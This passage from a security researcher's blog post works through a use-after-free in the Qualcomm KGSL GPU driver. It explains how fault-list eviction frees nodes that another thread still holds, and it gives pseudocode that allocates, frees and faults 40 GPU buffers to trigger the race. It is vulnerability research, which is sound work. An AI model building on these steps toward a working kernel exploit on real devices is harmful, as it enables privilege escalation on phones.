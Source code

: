 ```c
	}

	if (length == KGSL_MAX_FAULT_ENTRIES) {
		tmp = list_first_entry(&context->faults, struct kgsl_fault_node, node);
		list_del(&tmp->node);
		kfree(tmp->priv);
		kfree(tmp);
	}

	...
}
```

As we had seen [earlier](http://streypaws.github.io/posts/Fast-and-Faulty-A-Use-After-Free-in-KGSL-Fault-Handling/#kgsl-fault-mechanism), there's a logic in this function to remove faults older than `KGSL_MAX_FAULT_TIME_THRESHOLD` (which is 5000ms) and limits the total number of stored faults to `KGSL_MAX_FAULT_ENTRIES` (which is 40). If we can try triggering any one of these conditions, then it's possible to delete a `kgsl_fault_node` after Thread A gets a reference to it, leading to Use-After-Free. 

I first tried the second condition where we need to create 40 pagefaults to reach the threshold, I wrote this code for that -

```c
function approach_1(iterations, fd, ctx):

    // small delay used to stagger fault creation (tunable)
    delay = 50ms
    iterations = 40

    // --- 1) Allocate many GPU objects and keep their IDs ---
    ids = new array[iterations]
    for i in 0 .. iterations-1:
        // IOCTL: allocate GPU object -> returns alloc.id, alloc.gpuaddr
        alloc = { size: 4096 * (i+1), flags: 0 }
        ioctl(fd, IOCTL_KGSL_GPUOBJ_ALLOC, &alloc)
        ids[i] = alloc.id
        // (we keep alloc.gpuaddr implicitly for later use)

    // --- 2) For each allocation: free it then submit a command to fault ---
    for i in 0 .. iterations-1:
        // create_fault(...) does:
        //  - Build cmd referencing alloc.gpuaddr (uses alloc.id)
        //  - IOCTL_KGSL_GPUOBJ_FREE with free_req.id = ids[i]        <-- frees GPU memory
        //  - IOCTL_KGSL_GPU_COMMAND submitting the cmd that points at freed addr
        create_fault(fd, ctx, ids[i])

        sleep(delay)   // small pause to increase chance of hitting hardware timing window
```

This function repeatedly creates GPU faults to exercise the driver’s fault-handling path. It first allocates a series of GPU memory objects using `IOCTL_KGSL_GPUOBJ_ALLOC` and stores their IDs. For each allocation, it then deliberately triggers a fault by using out `create_fault` function we created a while ago. A short delay is added between iterations to make sure the faults are registered, and hoping that faults won't be dropped by the system due to Fault throttling (too many faults in a short time). After testing it, these were my observations -

